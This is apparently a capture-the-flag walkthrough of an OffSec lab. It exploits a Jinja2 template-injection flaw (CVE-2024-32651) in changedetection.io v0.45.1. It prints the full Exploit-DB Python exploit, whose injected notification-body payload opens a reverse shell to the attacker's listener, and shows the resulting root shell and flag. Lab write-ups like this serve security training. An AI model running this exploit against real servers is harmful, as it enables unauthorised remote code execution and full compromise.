


# Detection

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Difficulty: Easy
Community Rating: Easy
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Linux
Points: 10
Number of Flags: 1
Lab Description:
This lab focuses on exploiting CVE-2024-32651, a Server-Side Template Injection (SSTI) vulnerability in 
Changedetection.io v0.45.1. By leveraging Jinja2's template engine, attackers can execute arbitrary 
commands, leading to Remote Code Execution (RCE) and a full server compromise.
Released: 29 Aug 2024
```

Machine link: [https://portal.offsec.com/machine/detection-184328/overview/details](https://portal.offsec.com/machine/detection-184328/overview/details)

## Solution

### Scan for services with nmap

We start by scanning the machine on all ports with `nmap` including service info and default scripts

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Detection]
└─$ export TARGET_IP=192.168.114.97 

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Detection]
└─$ sudo nmap -sC -sV -p- $TARGET_IP
[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-05 14:25 +0100
Nmap scan report for 192.168.114.97
Host is up (0.045s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)
|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
|_  256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
5000/tcp open  http    Python http.server 3.5 - 3.10
|_http-title: Change Detection
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.68 seconds
```

We have two services running and available:

- OpenSSH 8.4p1 on port 22
- Python http.server 3.5 - 3.10 on port 5000

### Check the web site

Browsing manually to `http://192.168.114.97:5000/` shows a [changedetection.io](https://github.com/dgtlmoon/changedetection.io/) web site



We can see that the version is **v0.45.1**.

### Search for available exploits

Next we check for available exploits for this version

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Detection]
└─$ searchsploit changedetection
---------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                  |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
changedetection < 0.45.20 - Remote Code Execution (RCE)                                                                                                         | multiple/webapps/52027.py
---------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Detection]
└─$ searchsploit -m 52027       
  Exploit: changedetection < 0.45.20 - Remote Code Execution (RCE)
      URL: https://www.exploit-db.com/exploits/52027
     Path: /usr/share/exploitdb/exploits/multiple/webapps/52027.py
    Codes: N/A
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /mnt/hgfs/OffSec_PG/PG_Practice/Easy/Detection/52027.py


┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Detection]
└─$ cat 52027.py                  
# Exploit Title: changedetection <= 0.45.20 Remote Code Execution (RCE)
# Date: 5-26-2024
# Exploit Author: Zach Crosman (zcrosman)
# Vendor Homepage: changedetection.io
# Software Link: https://github.com/dgtlmoon/changedetection.io
# Version: <= 0.45.20
# Tested on: Linux
# CVE : CVE-2024-32651

from pwn import *
import requests
from bs4 import BeautifulSoup
import argparse

def start_listener(port):
    listener = listen(port)
    print(f"Listening on port {port}...")
    conn = listener.wait_for_connection()
    print("Connection received!")
    context.newline = b'\r\n'
    # Switch to interactive mode
    conn.interactive()

def add_detection(url, listen_ip, listen_port, notification_url=''):
    session = requests.Session()

    # First request to get CSRF token
    request1_headers = {
        "Cache-Control": "max-age=0",
        "Upgrade-Insecure-Requests": "1",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
        "Accept-Encoding": "gzip, deflate",
        "Accept-Language": "en-US,en;q=0.9",
        "Connection": "close"
    }

    response = session.get(url, headers=request1_headers)
    soup = BeautifulSoup(response.text, 'html.parser')
    csrf_token = soup.find('input', {'name': 'csrf_token'})['value']
    print(f'Obtained CSRF token: {csrf_token}')

    # Second request to submit the form and get the redirect URL
    add_url = f"{url}/form/add/quickwatch"
    add_url_headers = {  # Define add_url_headers here
        "Origin": url,
        "Content-Type": "application/x-www-form-urlencoded"
    }
    add_url_data = {
        "csrf_token": csrf_token,
        "url": "https://reddit.com/r/baseball",
        "tags": '',
        "edit_and_watch_submit_button": "Edit > Watch",
        "processor": "text_json_diff"
    }

    post_response = session.post(add_url, headers=add_url_headers, data=add_url_data, allow_redirects=False)

    # Extract the URL from the Location header
    if 'Location' in post_response.headers:
        redirect_url = post_response.headers['Location']
        print(f'Redirect URL: {redirect_url}')
    else:
        print('No redirect URL found')
        return

    # Third request to add the changedetection url with ssti in notification config
    save_detection_url = f"{url}{redirect_url}"
    save_detection_headers = {  # Define save_detection_headers here
        "Referer": redirect_url,
        "Cookie": f"session={session.cookies.get('session')}"
    }

    save_detection_data = {
        "csrf_token": csrf_token,
        "url": "https://reddit.com/r/all",
        "title": '',
        "tags": '',
        "time_between_check-weeks": '',
        "time_between_check-days": '',
        "time_between_check-hours": '',
        "time_between_check-minutes": '',
        "time_between_check-seconds": '30',
        "filter_failure_notification_send": 'y',
        "fetch_backend": 'system',
        "webdriver_delay": '',
        "webdriver_js_execute_code": '',
        "method": 'GET',
        "headers": '',
        "body": '',
        "notification_urls": notification_url,
        "notification_title": '',
        "notification_body": f"""
        {}
        {}
        {{{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\\"{listen_ip}\\",{listen_port}));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\\"/bin/bash\\")'").read()}}}}
        {}
        {}
        """,
        "notification_format": 'System default',
        "include_filters": '',
        "subtractive_selectors": '',
        "filter_text_added": 'y',
        "filter_text_replaced": 'y',
        "filter_text_removed": 'y',
        "trigger_text": '',
        "ignore_text": '',
        "text_should_not_be_present": '',
        "extract_text": '',
        "save_button": 'Save'
    }
    final_response = session.post(save_detection_url, headers=save_detection_headers, data=save_detection_data)

    print('Final request made.')

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Add detection and start listener')
    parser.add_argument('--url', type=str, required=True, help='Base URL of the target site')
    parser.add_argument('--port', type=int, help='Port for the listener', default=4444)
    parser.add_argument('--ip', type=str, required=True, help='IP address for the listener')
    parser.add_argument('--notification', type=str, help='Notification url if you don\'t want to use the system default')
    args = parser.parse_args()


    add_detection(args.url, args.ip, args.port, args.notification)
    start_listener(args.port)                                                                                                                                                                                                  
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Detection]
└─$ 
```

The exploit requires both [pwntools](https://docs.pwntools.com/en/stable/index.html) and [Beautiful Soup](https://www.crummy.com/software/BeautifulSoup/)

```bash
┌──(PwnTools)─(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Detection]
└─$ python 52027.py
usage: 52027.py [-h] --url URL [--port PORT] --ip IP [--notification NOTIFICATION]
52027.py: error: the following arguments are required: --url, --ip

──(PwnTools)─(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Detection]
└─$ python 52027.py --url http://192.168.114.97:5000 --port 12345 --ip 192.168.45.179
Obtained CSRF token: IjZjYTA1NWYzNjE3MzlkMjc2NDkyYjlkMzQxYWZiMDZiMThjYzU4ZDMi.aamLAA.aKcIA004Q2KC8blKDLbP0PPhquc
Redirect URL: /edit/1e10383d-1d30-4450-9fa8-a7eea3c61cab?unpause_on_save=1
Final request made.
[+] Trying to bind to :: on port 12345: Done
[] Waiting for connections on :::12345
Listening on port 12345...
```

The exploit adds a new watch for `https://reddit.com/r/all` and the reverse shell is in the `Notification Body`



Hit the `Save` button to trigger the reverse shell.

### Get a reverse shell

Back at the exploit, we now have a shell

```bash
┌──(PwnTools)─(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Detection]
└─$ python 52027.py --url http://192.168.114.97:5000 --port 12345 --ip 192.168.45.179
Obtained CSRF token: IjZjYTA1NWYzNjE3MzlkMjc2NDkyYjlkMzQxYWZiMDZiMThjYzU4ZDMi.aamLAA.aKcIA004Q2KC8blKDLbP0PPhquc
Redirect URL: /edit/1e10383d-1d30-4450-9fa8-a7eea3c61cab?unpause_on_save=1
Final request made.
[+] Trying to bind to :: on port 12345: Done
[+] Waiting for connections on :::12345: Got connection from ::ffff:192.168.114.97 on port 40918
Listening on port 12345...
Connection received!
[*] Switching to interactive mode
root@detection:/# $ id
id
uid=0(root) gid=0(root) groups=0(root)
root@detection:/# 
root@detection:/# $  
```

And we are running as `root`!

### Get the root flag

So we can just cat the root flag

```bash
root@detection:/# $ cd /root
cd /root
root@detection:/root# 
root@detection:/root# $ ls -l
ls -l
total 8
-rwx------ 1 root root   33 Mar  5 13:25 proof.txt
drwx------ 3 root root 4096 Jun 15  2022 snap
root@detection:/root# 
root@detection:/root# $ cat proof.txt
cat proof.txt
d<REDACTED>5
root@detection:/root# 
root@detection:/root# $  
```

For additional information, please see the references below.

## References

- [Beautiful Soup - Docs](https://www.crummy.com/software/BeautifulSoup/bs4/doc/)
- [Beautiful Soup - Homepage](https://www.crummy.com/software/BeautifulSoup/)
- [beautifulsoup4 - PyPI](https://pypi.org/project/beautifulsoup4/)
- [changedetection.io - GitHub](https://github.com/dgtlmoon/changedetection.io/)
- [id - Linux manual page](https://man7.org/linux/man-pages/man1/id.1.html)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [OpenSSH  - Wikipedia](https://en.wikipedia.org/wiki/OpenSSH)
- [pwntools - Documentation](https://docs.pwntools.com/en/stable/index.html)
- [pwntools - GitHub](https://github.com/Gallopsled/pwntools)
- [searchsploit - Kali Tools](https://www.kali.org/tools/exploitdb/#searchsploit)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
